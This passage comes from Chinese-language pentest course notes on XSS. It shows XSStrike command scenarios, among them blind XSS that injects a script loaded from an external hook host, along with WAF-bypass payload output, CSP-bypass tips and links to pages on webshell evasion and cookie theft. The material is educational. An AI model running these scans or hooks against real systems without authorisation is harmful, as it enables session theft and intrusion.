# 发现隐藏表单、API 端点、JS 文件中的端点
```

#### 场景 5：盲打 XSS (需配合 XSS 平台)
```bash
# 1. 在 XSS 平台获取 hook.js 地址
# 2. 启动盲打扫描，自动向每个表单字段注入 <script src=hook.js></script>
python3 xsstrike.py -u "http://target.com" --crawl --blind --hook-url "http://xss-platform.com/hook.js"
```

#### 场景 6：隐藏参数发现 (暴力枚举 + HTML 解析)
```bash
python3 xsstrike.py -u "http://target.com/page.php" --params
# 解析页面 <input name=xxx>、JS 变量、注释中参数名，配合字典爆破
```

#### 场景 7：Burp Suite 联动 (实战渗透标配)
```bash
# 1. Burp 开启代理 127.0.0.1:8080
# 2. XSStrike 走代理，实时在 Burp Logger 观察 Payload 交互
python3 xsstrike.py -u "http://target.com/search?q=test" --proxy http://127.0.0.1:8080
```

### 输出结果解读
```
[INFO]  Testing parameter: q
[INFO]  Context: <div class="result">...{input}...</div>  (HTML 文本节点)
[INFO]  WAF detected: ModSecurity (OWASP CRS 3.3)
[INFO]  Payload: <svg/onload=alert(1)>  [Bypassed]
[SUCCESS] XSS confirmed! Execution verified via headless browser / callback.
```
- **Context 分析**：自动识别输出位置 (HTML/Attribute/JS/CSS/URL)
- **WAF 指纹**：识别 ModSecurity、Cloudflare、Akamai、安全狗等，调用对应绕过策略库
- **验证机制**：默认使用无头浏览器 (Pyppeteer/Playwright) 验证 JS 执行，减少误报

### 进阶技巧
| 技巧 | 说明 |
|------|------|
| 自定义 Payload 文件 | `--payloads custom_payloads.txt` 加载针对性字典 |
| 多线程加速 | 源码修改 `threads` 参数或使用 `xargs -P` 并行扫描多目标 |
| 结果导出 | 重定向输出 `> result.txt` 或解析 JSON 输出 (`--json-output`) |
| 绕过登录态 | `--cookie` 携带 Session，或配合 Selenium 登录后导出 Cookie |
| 对抗 CSP | 生成 `nonce` 窃取 Payload、利用 `strict-dynamic` 绕过、JSONP/ANGULAR 绕过 |

> 对比工具：`DalFox` (Go、速度快、参数发现强)、`XSSer` (老牌、功能全)、`BruteXSS` (简单)、`XSSHunter` (盲打平台)。XSStrike 胜在**上下文感知 + WAF 绕过策略库 + 中文社区活跃**。

---

## 知识图谱与交叉引用导航



### 关联页面速查

| 领域 | 页面 | 核心关联点 |
|------|------|------------|
| 靶场实战 | [[pikachu-target-writeup-part2-xss]] | Pikachu XSS 全类型复现、输出上下文转义防御 |
| 靶场实战 | [[xss-haozi-lab-walkthrough]] | 19 关通关、编码绕过、原型链污染/堆叠注入变种 |
| 基础课程 | [[xd-security-pentest-basic-stage-notes]] | Day1-24 Web基础/SQL注入/文件上传 知识体系 |
| 文件包含 | [[xd-security-file-inclusion-notes]]、[[php伪协议与反序列化利用]] | LFI/RFI 结合 XSS 链、伪协议利用 |
| Webshell | [[php-webshell-fundamentals-chopper-analysis]]、[[php-webshell-obfuscation-av-evasion]] | 一句木马原理、蚁剑/菜刀流量、混淆免杀 |
| 内网渗透 | [[internal-network-pivoting-techniques]]、[[frp内网渗透应用]] | XSS+BeEF 作为内网入口、隧道代理横向 |
| 应急响应 | [[xd-security-incident-response-notes]] | XSS 痕迹溯源、Webshell 排查、日志分析 |
| 代码审计 | [[xd-security-code-audit-notes-day50-57]] | PHP/Java 审计 XSS 污点追踪、框架级防御 |
| 红蓝对抗 | [[xd-security-awd-competition-strategies]]、[[xd-security-blue-team-defense]] | AWD 中 XSS 攻防、蜜罐捕获 XSS 攻击者 |
| CTF 实战 | [[attack-defense-world-beginner-web-writeup]]、[[attack-defense-world-master-advanced-writeup]] | 攻防世界 XSS 题目、绕过技巧实战 |
| **HTTP头伪造** | **[[http-header-forgery-stored-xss]]** | **X-Forwarded-For/Client-IP 头注入导致存储型 XSS 专题详解** |

---

## 结语

Day25-28 将 XSS 从“弹窗演示”推进到“全链路实战能力”：
1. **原理清晰** → 三大类型成因、数据流、利用条件一目了然
2. **实战落地** → 订单系统存储型窃取 Cookie、Shell 箱子后门、BeEF 持久化控制浏览器、**某shop v4.0.7 代码审计级存储型 XSS (Referer头注入+过滤绕过+后台触发+后渗透利用链)、AppCMS/TaoCMS HTTP 头伪造 (XFF/Client-IP) 存储型 XSS 实战复现**
3. **绕过体系** → HttpOnly 绕过 6 大姿势、11 关靶场编码/语法/上下文层层突破、WAF 三阶段绕过矩阵
4. **自动化** → XSStrike 上下文感知扫描、WAF 指纹识别、盲打/爬虫/参数发现一体化

后续学习建议：
- 深入 **CSP 策略编写与绕过** ([[xd-security-waf-bypass-techniques-day46-49]] 含 CSP 绕过专节)
- 结合 **现代前端框架 (React/Vue/Angular/Svelte) 的 XSS 防御与绕过** (模板引擎自动转义、危险 API 审计)
- 探索 **DOM Clobbering / Prototype Pollution 到 XSS 的转化链** ([[gkctf-2021-web-writeup]] 中 Node.js 原型链污染 RCE)
- 实战 **盲打 XSS 平台搭建与自动化运营** (ezXSS / XSSHunter / 自建)

> 本页面为知识库结构化沉淀，持续更新同步课程进度。欢迎通过交叉引用跳转深化各专题。

## 来源

- [301在路上-201508-202208_095](../sources/301在路上-201508-202208_095.md)
